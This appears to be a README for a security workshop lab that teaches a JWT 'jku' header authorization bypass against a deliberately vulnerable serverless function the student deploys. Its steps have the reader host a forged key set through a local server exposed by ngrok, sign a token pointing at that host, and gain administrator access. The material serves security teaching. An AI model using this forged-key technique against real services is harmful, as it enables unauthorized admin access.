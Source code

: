 ## JWT - JKU Authorization Bypass

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: Run `pipenv install`

```commandline
pipenv install
```

* Step 4: `pipenv shell`

```commandline
pipenv shell
``` 

* Step 5: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 6: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 7: Install a package for this to work `npm install -g jwt-cli`

```commandline
npm install -g jwt-cli
```

* Step 8: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)

* Step 9: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely

* Step 10: Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
* Step 11: Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

* Step 12: Copy the `token` value and run `jwt <copied token value>`

```commandline
jwt <copied token value>
```

* You should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

* Step 13: Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 

* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 15: Run: `python -m http.server`

```commandline
python -m http.server
```

In the **Tab 3**:

* Step 16: Install *ngrok* `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip`

```commandline
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
```
* Step 17: Run `apt-get install unzip`

```commandline
apt-get install unzip
```

* Step 18: `unzip` the *ngrok* `unzip ngrok-stable-linux-amd64.zip`

```commandline
unzip ngrok-stable-linux-amd64.zip
```

* Step 19: Run `./ngrok http 8000`

```commandline
./ngrok http 8000
```

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Step 20: Run `python token_gen.py https://f8ccd11d.ngrok.io` with copied *ngrok*  https `Forwarding` value 

```commandline
python token_gen.py https://<ngrok https forwarding value>.ngrok.io
```
 
* Step 21: Copy the generated token starting `ey....`

* Step 22: Run
 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

**Note:** You should see a response, that you are administrator


### Teardown

* Step 23: **Tab 1**, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 24: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 25: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```

* Step 26: **Tab 2** Run `ctrl+c` and close tab

* Step 27: **Tab 3** Run `ctrl+c` and close tab
